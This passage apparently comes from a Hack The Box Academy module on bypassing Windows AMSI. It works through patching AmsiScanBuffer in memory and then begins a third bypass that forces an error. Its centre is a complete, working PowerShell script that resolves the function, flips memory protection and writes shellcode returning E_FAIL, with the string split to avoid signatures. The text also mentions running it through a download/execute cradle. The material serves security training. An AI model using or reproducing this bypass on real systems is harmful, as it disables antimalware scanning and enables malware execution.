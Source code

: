 Looking up [common HRESULT values](https://learn.microsoft.com/en-us/windows/win32/seccrypto/common-hresult-values), we can arbitrarily pick `E_FAIL` which has the value `0x80004005`.

![image](https://academy.hackthebox.com/storage/modules/254/2/15.png)

Using the [Online x86 / x64 Assembler and Disassembler](https://defuse.ca/online-x86-assembler.htm) tool, we can generate shellcode.

![image](https://academy.hackthebox.com/storage/modules/254/2/7.png)

With the following `PowerShell`, we can then load `amsi.dll`, get the address of `AmsiScanBuffer` and overwrite the beginning with our shellcode.

```powershell
Add-Type -TypeDefinition @"
using System;
using System.Runtime.InteropServices;
public static class Kernel32 {
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string lpLibFileName);
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string lpProcName);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@;
$patch = [Byte[]] (0xB8, 0x05, 0x40, 0x00, 0x80, 0xC3);
$hModule = [Kernel32]::LoadLibrary("amsi.dll");
$lpAddress = [Kernel32]::GetProcAddress($hModule, "Amsi"+"ScanBuffer");
$lpflOldProtect = 0;
[Kernel32]::VirtualProtect($lpAddress, [UIntPtr]::new($patch.Length), 0x40, [ref]$lpflOldProtect) | Out-Null;
$marshal = [System.Runtime.InteropServices.Marshal];
$marshal::Copy($patch, 0, $lpAddress, $patch.Length);
[Kernel32]::VirtualProtect($lpAddress, [UIntPtr]::new($patch.Length), $lpflOldProtect, [ref]$lpflOldProtect) | Out-Null;

```

Running this script using a basic download/execute cradle successfully bypasses `AMSI`!

![image](https://academy.hackthebox.com/storage/modules/254/2/6.png)

#### Bypass 3: Forcing an Error

The third way we will look at bypassing `AMSI` is by forcing an error. Once again, looking inside `ScanContent`, we can see `two (main) ways` that `amsiInitFailed` can be set to `true` legitimately.

![image](https://academy.hackthebox.com/storage/modules/254/2/8.png)

For this to be the case, either `AmsiUtils.Init` or `AmsiOpenSession` should fail. Let's take a closer look at `AmsiOpenSession`, which is defined inside `amsi.dll`. We can use a reverse engineering tool called [IDA](https://hex-rays.com/ida-free/) to do so.
